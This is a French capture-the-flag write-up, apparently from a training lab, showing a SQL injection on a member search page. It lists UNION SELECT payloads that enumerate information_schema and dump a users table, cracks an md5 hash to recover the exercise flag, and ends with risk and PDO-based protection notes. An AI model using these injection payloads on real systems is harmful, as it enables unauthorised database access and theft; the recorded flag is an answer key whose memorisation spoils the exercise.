 # SEARCH MEMBER PAGE

## CIBLE: http://10.12.1.129/?page=member

### PRÉ REQUIS

Aucun.

### INJECTIONS SQL

La commande:
`1=1 UNION SELECT table_schema, table_name FROM information_schema.tables`<br>
permet d'apprendre que dans la base de données `Member_Sql_Injection` se trouve une table unique: `users`.<br>

La commande:
`1=1 UNION SELECT table_name, column_name FROM information_schema.columns`<br>
permet d'apprendre que dans la table "users" se trouvent les colonnes suivantes:

- user_id
- first_name
- last_name
- town
- country
- planet
- Commentaire
- countersign

Il est donc possible de vérifier le contenu de toutes ces tables.<br>
voici la partie intéressante de la commande:
`1=1 UNION SELECT Commentaire, countersign FROM users`.<br>
```
Decrypt this password -> then lower all the char. Sh256 on it and it's good !
5ff9d0165b4f92b14994e5c685cdce28
```

### DECRYPT FILE

On peut décrypter le mot de passe qui est du md5 grâce au site [md5 decrypt](https://md5decrypt.net/), qui donne: `FortyTwo`.<br>
Une fois les majuscules retirées, on obtient: `fortytwo`.<br>
On peut crypter ce mot de passe en sha256 grâce au site [md5 decrypt (sha256)](https://md5decrypt.net/Sha256/#answer).<br>
On obtient donc le flag: `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`.

## RISQUE

L'accès aux bases SQL permet l'obtention de toutes les données qu'elles contiennent.<br>
Ici, nous avons seulement récupéré un commentaire, mais souvent les mots de passe ainsi que de nombreuses données d'utilisateur sont conservées dans ces bases de données.<br>
C'est par exemple le cas dans la base de données `Member_Brute_Force`.

## PROTECTION

Les injections SQL sont très dangeureuses. Heureusement, il est très facile de s'en protéger.<br>
Par exemple avec la fonction PDO (en php), qui va formater la requête avant d'ajouter les paramètres et vérifier le formatage final de la requête avant de la soumettre à la base de données.

